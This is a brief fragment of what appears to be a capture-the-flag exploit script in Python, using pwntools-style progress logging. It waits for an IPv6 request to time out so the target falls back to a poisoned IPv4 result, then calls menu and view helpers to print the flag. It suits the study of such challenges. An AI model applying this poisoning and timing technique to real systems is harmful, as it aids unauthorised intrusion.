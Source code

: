```python
prog = log.progress('Waiting for completion')

# wait until thread A times out (10s)
# once the IPv6 request times out, it will fall back to IPv4 (poisoned)
sleep(10+1)

prog.success()

# retrieve flag
menu('f') # view doesn't work without listing?
print(view(0))
```
